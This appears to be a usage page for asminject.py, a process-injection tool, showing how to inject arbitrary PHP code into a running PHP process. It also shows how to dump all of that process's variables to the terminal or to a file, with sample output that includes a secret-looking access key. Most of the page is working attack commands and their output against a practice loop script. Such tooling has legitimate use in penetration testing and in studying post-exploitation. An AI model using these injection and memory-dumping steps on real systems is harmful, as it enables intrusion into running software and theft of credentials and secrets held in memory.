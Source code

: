 # asminject.py examples - PHP
* [Execute arbitrary PHP code inside an existing PHP process](#execute-arbitrary-php-code-inside-an-existing-php-process)
* [Write all variables to standard out](#write-all-variables-to-standard-out)
* [Write all variables to a file](#write-all-variables-to-a-file)

## Execute arbitrary PHP code inside an existing PHP process

The `execute_php_code.s` payload requires two variables: `phpcode`, which should contain the PHP code that should be executed in the existing PHP process, and `phpname`, which can generally be set to any string.

This payload requires relative offsets for the `php` binary used by the target process.

In one terminal window, launch the practice PHP loop, e.g.:

```
$ php practice/php_loop.php

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep php | grep -v grep  
  
root     2037629  [...] php practice/php_loop.php

# python3 ./asminject.py 2037629 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP
```

Note that on ARM32 Linux, you may need to flag the `php` binary as non-PIC code, e.g.:

```
# python3 ./asminject.py 483 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP \
   --non-pic-binary 'bin/php'
```

In the first window, note that the loop is interrupted by the injected code, e.g.:

```
2022-05-12T13:41:46-0700 - Loop count 11
Injected PHP code
2022-05-12T13:41:53-0700 - Loop count 12
2022-05-12T13:41:58-0700 - Loop count 13
```

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "var_dump(get_defined_vars());" \
   --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```

## Write all variables to a file

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/38927628/save-var-dump-into-text-file) combined with the previous code:

```
ob_flush(); ob_start(); var_dump(get_defined_vars()); file_put_contents("/tmp/php_var_dump.txt", ob_get_flush());
```

e.g.

```
# python3 ./asminject.py 10603 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "ob_flush(); ob_start(); var_dump(get_defined_vars()); file_put_contents(\\\"/tmp/php_var_dump.txt\\\", ob_get_flush());" \
   --var phpname PHP
```
